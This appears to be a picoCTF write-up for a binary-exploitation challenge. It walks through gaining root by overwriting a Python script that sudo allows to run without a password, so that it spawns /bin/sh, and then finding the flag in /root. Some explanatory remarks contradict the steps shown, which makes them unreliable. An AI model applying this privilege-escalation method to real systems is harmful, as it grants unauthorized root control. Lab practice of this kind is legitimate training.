 # Challange Info

Name : hijacking

Difficulty : Medium

Category : Binary Exploitation

Link : https://play.picoctf.org/practice/challenge/352?category=6&page=2

# Writeup

The challange provides SSH details.

Logging in via ssh.

```bash
ssh picoctf@saturn.picoctf.net -p 60826
```

Listing all files in home directory.

```bash
ls -al
```

The file which caught my eye was .server.py.

> -rw-r--r-- 1 root    root     375 Feb  7  2024 .server.py

But as it's not writeable if we try to edit the file it will drop to picoctf user from root.

So we check if picoctf is allowed to run commands as sudo.

```bash
sudo -l
```

> User picoctf may run the following commands on challenge:
> 
>    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py

We can run the python file as sudo.

Using vim to edit the file.

```bash
vim .server.py
```

Replacing file contents with following :

```python
import os
os.system("/bin/sh")
```

Running the python script as sudo. (Note that the allowed config uses relative path for .server.py so we also have to do the same or it'll give us error that we are not allowed to execute the file. For python3 it gets the relative path from PATH variable.)

```bash
sudo python3 /home/picoctf/.server.py
```

We get root shell.

Navigating to /root and listing all files.

```bash
cd /root
ls -al
```

> -rw-r--r-- 1 root root   43 Sep 26 19:29 .flag.txt
